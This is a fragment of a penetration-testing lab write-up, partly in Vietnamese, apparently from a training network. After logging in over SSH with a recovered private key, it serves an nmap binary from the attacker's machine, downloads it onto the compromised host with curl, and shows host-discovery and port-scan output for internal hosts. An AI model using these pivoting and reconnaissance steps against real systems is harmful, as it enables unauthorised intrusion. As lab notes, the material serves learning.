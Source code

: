 -----END OPENSSH PRIVATE KEY-----

Có user, có key rồi thì ssh vào server thôi:

ssh -i id_wr

Git enum

Download nmap binary to your computer

create server

python3 -m http.server 80

Access into target host:

use curl to download file

curl 10.50.85.26/nmap -o ./nmap-dai

Run scan

./nmap-dai -sn 10.200.84.0/24 -oN scan-dai

Host is up (-0.18s latency).

MAC Address: 02:F3:70:5F:3A:E7 (Unknown)

Nmap scan report for ip-10-200-84-100.eu-west-1.compute.internal (10.200.84.100)

Host is up (0.00019s latency).

MAC Address: 02:EF:0B:41:F6:17 (Unknown)

Nmap scan report for ip-10-200-84-150.eu-west-1.compute.internal (10.200.84.150)

Host is up (0.00015s latency).

MAC Address: 02:A2:EE:BA:7D:4B (Unknown)

Nmap scan report for ip-10-200-84-250.eu-west-1.compute.internal (10.200.84.250)

Host is up (0.00022s latency).

MAC Address: 02:9C:9D:AF:36:F5 (Unknown)

Nmap scan report for ip-10-200-84-200.eu-west-1.compute.internal (10.200.84.200)

Host is up.

./nmap-dai 10.200.84.100,150 -oN scan-dai1

Nmap scan report for ip-10-200-84-150.eu-west-1.compute.internal (10.200.84.150)

Host is up (0.00051s latency).

Not shown: 6147 filtered ports

PORT     STATE SERVICE

80/tcp   open  http

3389/tcp open  ms-wbt-server

5985/tcp open  wsman
